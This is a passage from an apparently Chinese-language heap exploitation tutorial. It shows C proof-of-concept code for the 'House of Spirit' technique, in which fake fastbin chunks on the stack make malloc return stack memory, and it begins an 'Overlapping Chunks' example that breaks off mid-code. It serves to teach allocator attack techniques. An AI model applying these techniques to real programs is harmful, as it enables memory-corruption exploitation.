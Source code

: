 ```C

int main()
{
    struct fast_chunk fake_chunks[2]; // Two chunks in consecutive memory
    void *ptr, *victim;

    ptr = malloc(0x30);

    printf("fake_chunks0:%p\n", &fake_chunks[0]);
    printf("fake_chunks1:%p\n", &fake_chunks[1]);

    // Passes size check of "free(): invalid size"
    fake_chunks[0].size = sizeof(struct fast_chunk);

    // Passes "free(): invalid next size (fast)"
    fake_chunks[1].size = sizeof(struct fast_chunk);

    // Attacker overwrites a pointer that is about to be 'freed'
    ptr = (void *)&fake_chunks[0].fd;

    free(ptr);

    victim = malloc(0x30);
    printf("%p\n", victim);

    return 0;
}
```

* 原理分析

通过构造两个连续的 fake chunk 可以被 free(),调用free(first fake chunk.fd) 通过这种方式骗过安全措施

使得将 fake chunk 插入到 fast bins 中去

* 运行效果

![house_of_spirit_result](../pictures/heap/house_of_spirit/house_of_spirit_result.png)

通过结果可以看到, malloc() 得到的地址是属于第一个 fake chunk (栈区域)

### Overlapping Chunks

通过修改中间已释放 chunk size,使得 malloc() 时覆盖后面正在使用的 chunk

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main(int argc, char *argv[])
{

    intptr_t *p1, *p2, *p3, *p4;

    p1 = malloc(0x100 - 8);
    p2 = malloc(0x100 - 8);
    p3 = malloc(0x80 - 8);

    fprintf(stderr, "p1=%p\np2=%p\np3=%p\n", p1, p2, p3);
```